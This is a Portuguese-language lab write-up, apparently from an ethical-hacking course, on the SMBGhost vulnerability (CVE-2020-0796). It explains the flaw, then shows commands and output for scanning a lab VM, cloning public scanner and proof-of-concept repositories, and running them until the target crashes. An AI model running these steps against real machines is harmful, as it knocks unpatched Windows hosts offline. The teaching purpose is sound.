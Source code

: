 # CVE‑2020‑0796

O **CVE‑2020‑0796**, também conhecido como **SMBGhost**, é uma vulnerabilidade crítica que afeta o protocolo **SMBv3 (Server Message Block 3.1.1)** em versões específicas do Windows.

Trata-se de uma falha de **execução remota de código (RCE)**, permitindo que um atacante não autenticado possa enviar pacotes especialmente malformados ao sistema alvo, explorando a forma como o SMBv3 lida com compressão de pacotes.

A gravidade é avaliada como **10.0 (Crítica)** na escala CVSS v3, significando impacto máximo e sem necessidade de autenticação.

### Sistemas afetados

* **Windows 10 (versões 1903 e 1909)**: 32‑bit, x64 e ARM64
* **Windows Server (1903 e 1909)** — especialmente em instalações Server Core.

### Como funciona a exploração?

A vulnerabilidade ocorre devido a um **buffer overflow** causado por um **integer overflow**. O servidor (ou cliente) calcula erroneamente o tamanho do buffer com base em dados malformados (como `OriginalSize = 0xFFFFFFFF` e um `Offset` elevado), resultando na alocação de um buffer muito pequeno. Quando os dados são descomprimidos, ocorre sobrecarga de memória — levando potencialmente a execução de código remoto ou falha do sistema (BSOD).

* A ameaça é especialmente séria porque é **wormable**, ou seja, pode se propagar automaticamente entre sistemas vulneráveis — em estilo semelhante ao ransomware WannaCry.
* Foram publicados **códigos proof-of-concept (PoCs)** que exploram essa vulnerabilidade, inclusive através de ferramentas como o Metasploit.

## Verificando se o alvo tem a vunerabilidade

Verificando as portas abertas da máquina alvo
```
$ nmap -sS 192.168.1.39
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 22:23 -03
Nmap scan report for 192.168.1.39
Host is up (0.00030s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:15:FF:CF (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 18.79 seconds
```
**Busca no Google:** `CVE‑2020‑0796 github`

Encontramos um scanner para vunerabilidade<br>
[Scanner](https://github.com/ButrintKomoni/cve-2020-0796)

### Copiando o Scanner
```
$ git clone https://github.com/ButrintKomoni/cve-2020-0796
Cloning into 'cve-2020-0796'...
remote: Enumerating objects: 21, done.
remote: Counting objects: 100% (21/21), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 21 (delta 3), reused 11 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (21/21), 5.74 KiB | 5.74 MiB/s, done.
Resolving deltas: 100% (3/3), done.
```
`$ cd cve-2020-0796`
```
$ ls
cve-2020-0796-scanner.py  README.md
```
### Executando o scanner
```
$ python3 cve-2020-0796-scanner.py 192.168.1.39
Vulnerable
```
**Conclusão:** A máquina alvo está vunerável

## Ataque - crash da máquina alvo

A pesquisa no Google nos fornece um ataque que 'derruba' a OS da máquina alvo.<br>
[Ataque](https://github.com/jiansiting/CVE-2020-0796)

### Copiando o ataque
```
$ git clone https://github.com/jiansiting/CVE-2020-0796
Cloning into 'CVE-2020-0796'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 10 (delta 1), reused 10 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (10/10), 406.04 KiB | 4.95 MiB/s, done.
Resolving deltas: 100% (1/1), done.
```
`$ cd CVE-2020-0796`
```
$ ls
cve-2020-0796.py  demo.gif  README.md
```
### Executando o ataque
```
$ python3 cve-2020-0796.py 192.168.1.39
***********************
*  CVE-2020-0796 PoC  *
*  By Jiansiting      *
***********************
Traceback (most recent call last):
  File "/home/OpsShadow/Documentos/White Hat/CVE-2020-0796/cve-2020-0796.py", line 111, in <module>
    send_compressed(sock, "JST" * 100)
    ~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^
  File "/home/OpsShadow/Documentos/White Hat/CVE-2020-0796/cve-2020-0796.py", line 98, in send_compressed
    sock.recv(1000)
    ~~~~~~~~~^^^^^^
TimeoutError: timed out
```
### Resultado
Crash na máquina alvo.

![Crash](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/937d8c2733e637a734098f21eb9d38a2c4c71c3a/4%20-%20Exploitation/crash_window.png)


